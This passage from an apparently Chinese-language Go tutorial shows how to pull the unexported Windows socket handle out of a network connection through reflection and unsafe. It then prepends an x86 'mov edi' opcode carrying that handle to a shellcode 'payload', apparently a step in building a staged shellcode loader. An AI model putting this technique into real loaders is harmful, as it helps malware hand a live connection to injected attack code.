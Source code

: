 ```go

	// I/O poller.
	pd pollDesc

	// Used to implement pread/pwrite.
	l sync.Mutex

	// For console I/O.
	lastbits       []byte   // first few bytes of the last incomplete rune in last write
	readuint16     []uint16 // buffer to hold uint16s obtained with ReadConsole
	readbyte       []byte   // buffer to hold decoding of readuint16 from utf16 to utf8
	readbyteOffset int      // readbyte[readOffset:] is yet to be consumed with file.Read

	// Semaphore signaled when file is closed.
	csema uint32

	skipSyncNotif bool

	// Whether this is a streaming descriptor, as opposed to a
	// packet-based descriptor like a UDP socket.
	IsStream bool

	// Whether a zero byte read indicates EOF. This is false for a
	// message based socket connection.
	ZeroReadIsEOF bool

	// Whether this is a file rather than a network socket.
	isFile bool

	// The kind of this file.
	kind fileKind
}
```

可以看到 `Sysfd` 是文件描述符，也就是我们想要的，我们需要取一下，这里因为 Golang 里面小写开头的字段是不导出的，我们需要使用反射取一下

**注意：可能因为 Golang 版本不一致，这个结构有所更改，请自行考证一下，主要原因是非导出字段，官方是不保证向下兼容性的**

所以获取文件描述符的代码就是

```go
fd := reflect.ValueOf(*conn).FieldByName("fd")
handle := reflect.Indirect(fd).FieldByName("pfd").FieldByName("Sysfd")
socketFd := *(*uint32)(unsafe.Pointer(handle.UnsafeAddr()))
```

文件描述符是 handle 所指向的值，这里需要**注意**一下

然后后面的还是我们之前的操作，使用 binary 包把 uint32 转为 4bytes 数组

然后我们需要把 socket fd 放入 edi

```go
payload = append(append([]byte{0xBF}, socketFD...), payload...)
```

